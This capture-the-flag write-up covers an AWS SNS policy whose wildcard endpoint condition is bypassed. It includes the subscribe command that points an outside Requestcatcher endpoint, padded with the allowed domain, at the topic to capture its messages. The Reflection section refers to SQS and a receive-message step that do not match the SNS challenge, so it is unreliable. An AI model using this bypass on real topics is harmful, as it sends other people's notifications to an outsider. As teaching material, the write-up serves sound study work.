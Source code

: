 # Challenge number
Challenge: 3

## Challenge Statement
In this challenge, I was tasked with subscribing to an SNS topic and confirming the subscription. The IAM policy provided in the challenge allowed me to subscribe to the TBICWizPushNotifications SNS topic if the endpoint matched the specified condition *@tbic.wiz.io. My goal was to subscribe using a valid endpoint and confirm the subscription to receive notifications.

## IAM Policy
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
### write a short analysis about the IAM policy here
**What do I have access to?**

The IAM policy allows public access for subscribing to the SNS topic with the SNS:Subscribe action. The policy specifies that anyone can subscribe, but only endpoints with the domain @tbic.wiz.io are permitted through the condition sns:Endpoint. This means anyone can interact with the topic as long as the provided endpoint meets the specified condition.

**What don't I have access to?**

While I have the permission to subscribe, I do not have access to perform any other administrative tasks related to the SNS topic. This includes actions such as publishing messages to the topic, modifying the topic's settings, or removing subscriptions. The policy grants permission for subscribing but doesn't provide broader control over the SNS topic itself.

**What do I find interesting?**

The policy's allowance for any principal (i.e., anyone) to subscribe, as long as the endpoint matches @tbic.wiz.io, is intriguing because it balances openness with a condition. While this might seem like a flexible setup, the openness of AWS: * raises concerns, as anyone could exploit this by creating an endpoint matching the condition. It’s an interesting design choice, but it could lead to unintended exposure of the service.

**What could an attacker do with this access?**

An attacker could potentially abuse this access by subscribing a malicious endpoint that matches the @tbic.wiz.io condition. Once subscribed, the attacker could receive sensitive notifications or data sent to the topic. Since there is no further control on the subscription beyond the endpoint condition, attackers could gather confidential information or trigger unintended actions if the topic sends alerts or triggers workflows upon new messages.
  
**How could this misconfiguration have been avoided?**

This misconfiguration could have been avoided by tightening the permissions around who is allowed to subscribe to the SNS topic. Instead of allowing open access with AWS: *, a more secure setup would restrict access to specific, trusted AWS identities (IAM roles or users). Furthermore, a more granular condition, such as IP address restrictions or more specific endpoint checks, could be applied. Additionally, confirming subscriptions only from known, trusted endpoints would help avoid malicious subscriptions.


## Solution
**Step-1: Capture the Flag Using Requestcatcher**
To begin the process, I used Requestcatcher to create a temporary endpoint to subscribe to the SNS topic. This would allow me to receive the messages sent by the SNS topic.
```
https://requestcatcher.com/
```
**Step-2: Subscribe to the SNS Topic**
To subscribe to the SNS topic, I used the aws sns subscribe command, specifying the topic ARN and the endpoint that matches the required condition (@tbic.wiz.io).
```
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://ashish.requestcatcher.com/test@tbic.wiz.io'
```

**Step 3: Confirm the Subscription**
After subscribing, SNS sent a confirmation message to the provided endpoint. To confirm the subscription, I accessed the confirmation link provided in the message. The URL included a Token parameter that I used to confirm the subscription.
```
https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a5872376d572991ca2da28f73768f1d8b95ea0f71895f216143f2f1037cc2ea5795e8b34921442cff336606b3cb79056939a430c18dea0854ec15350ecd88fda926cac07c59061146a0af550e5fab5d7e0a4c29d2cf5ddcc7ded4c8b33b5f2ad181ec8f386ad8e71e01227dbb98985917a9

```
Once I clicked the confirmation link, the subscription was confirmed, and I was able to receive notifications from the SNS topic.

**Step 4: Receive the Message**
After confirming the subscription, I started receiving messages from the SNS topic. These messages contained the relevant information, including the flag or other useful data, which I could then extract for further use.
```
flag: {wiz:always-suspect-asterisks}
```
Step 5: Submit the Flag: Finally, I submitted the retrieved flag on the challenge platform.

## Reflection
**What was your approach?**

My approach involved understanding the specific condition in the IAM policy, which restricted access to endpoints ending with @tbic.wiz.io. Once I understood that, I focused on subscribing to the SNS topic with the correct endpoint and confirmed my subscription before proceeding with the rest of the process.
  
**What was the biggest challenge?**

The biggest challenge was ensuring my endpoint matched the condition specified in the IAM policy (@tbic.wiz.io). Once that was clear, I followed the SNS subscription and confirmation steps carefully.
  
**How did you overcome the challenges?**

I overcame this challenge by reviewing the IAM policy to understand the condition and selecting an appropriate endpoint. Using the AWS CLI, I tested different commands to confirm I had the correct permissions to subscribe to the SNS topic and receive messages.
  
**What led to the break through?**

The breakthrough came when I successfully executed the receive-message command, which allowed me to pull messages from the queue. I then found the message containing the flag, marking the success of the process.
  
**On the blue side, how can the learning be used to properly defend the important assets?**

This experience reinforced the importance of the principle of least privilege. To protect critical assets, like SQS queues, organizations should avoid granting overly broad permissions and restrict access to only trusted users or services. Regular audits and reviews of IAM policies help minimize the risk of unauthorized access and prevent security vulnerabilities.

